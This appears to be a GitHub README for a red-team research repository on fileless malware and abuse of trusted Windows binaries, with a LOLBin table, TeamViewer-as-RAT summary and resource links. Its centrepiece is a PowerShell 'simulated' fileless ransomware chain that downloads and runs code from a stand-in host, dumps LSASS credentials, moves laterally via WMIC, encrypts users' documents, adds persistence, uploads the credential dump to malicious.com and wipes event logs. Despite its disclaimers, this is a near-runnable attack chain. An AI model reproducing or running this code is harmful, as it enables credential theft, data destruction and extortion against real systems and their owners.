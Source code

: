 
# Overview

This repository P1rat3R00t/NSFW is a cybersecurity research project focusing on advanced threat techniques, particularly fileless malware and the exploitation of Living-Off-the-Land Binaries (LOLBins). It is intended strictly for educational and controlled research purposes.

## ⚠️ Advisory Warning: Educational Use Only

This repository contains research material on advanced cybersecurity concepts, including NSFW (Not Safe for Work) topics such as **fileless malware**, **LOLBins abuse**, and **adversary simulation chains**.
All content is intended **solely for educational, academic, and controlled research lab environments**.

> **🚫 Do not deploy or reproduce any of the included techniques on unauthorized or production systems. Misuse may violate legal, ethical, and professional standards.**

![Screenshot 2025-05-21 001453](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)


---

## 🧠 Threat Landscape Overview: Fileless Malware & LOLBins

**Fileless malware** operates exclusively in memory, avoiding disk writes to evade antivirus and EDR solutions. Leveraging trusted system binaries, attackers can bypass defenses without dropping a traditional file-based payload. These attacks often chain together native tools, scripts, and in-memory injection, leaving minimal forensic traces.

**LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries repurposed by adversaries for malicious activity. Since they’re signed and trusted, many defenses overlook them. Abuse of LOLBins is a common red team tactic mapped extensively in the [MITRE ATT\&CK](https://attack.mitre.org/) framework.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                     | Abused For                | ATT\&CK Tactics                   |
| -------------------------- | ------------------------- | --------------------------------- |
| `rundll32.exe`             | DLL execution             | Code execution, EDR bypass        |
| `mshta.exe`                | Run HTA payloads          | Script execution, sandbox evasion |
| `regsvr32.exe`             | Load COM DLLs             | Fileless execution, C2 proxy      |
| `wmic.exe`                 | Remote command execution  | Process launch, lateral movement  |
| `cmd.exe / powershell.exe` | Script runners            | Payload staging, persistence      |
| `msbuild.exe`              | Inline C# compile/exec    | Fileless malware loading          |
| `certutil.exe`             | Download/decode files     | Exfiltration, staging             |
| `bitsadmin.exe`            | Remote file fetch         | Delivery, task persistence        |
| `schtasks.exe`             | Task scheduling           | Privilege escalation, persistence |
| `esentutl.exe`             | Copy/exec binary payloads | Stealth operations, exfiltration  |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware

*Using [MITRE ATT\&CK](https://attack.mitre.org/) for Technique Mapping*

> ⚠️ **Disclaimer**: This PowerShell sequence is a synthetic simulation created for red team development in secure lab environments. Execution outside of controlled conditions is **strictly prohibited**.

<details>
<summary>🔐 Simulated PowerShell Ransomware Payload Chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

# TeamViewer as a RAT: Summary

TeamViewer, a popular remote desktop application, can be misused as a Remote Access Trojan (RAT) primarily by exploiting weak configurations, credential theft, or known vulnerabilities in its software versions. Attackers who gain access to valid credentials or exploit unpatched CVEs (such as DLL injection or privilege escalation flaws) can silently control a target system remotely, execute arbitrary commands, and move laterally within networks. This misuse leverages TeamViewer’s legitimate remote control capabilities to maintain persistent, stealthy access without triggering typical malware defenses. However, turning TeamViewer into a RAT requires either compromising authentication or exploiting vulnerabilities in older or unpatched versions, highlighting the importance of strong credential management and timely software patching.


## 🧭 Additional Red Team Resources

* 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
* 🔍 [MITRE ATT\&CK Entry – S0697](https://attack.mitre.org/software/S0697/)
* 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
* 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
* 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* 🦠 [Wikipedia: Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
* 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is curated for cybersecurity researchers, malware analysts, and red team operators. It is not intended for malicious use or real-world deployment. Always adhere to your country’s cybercrime laws and organizational rules of engagement. Operate responsibly.

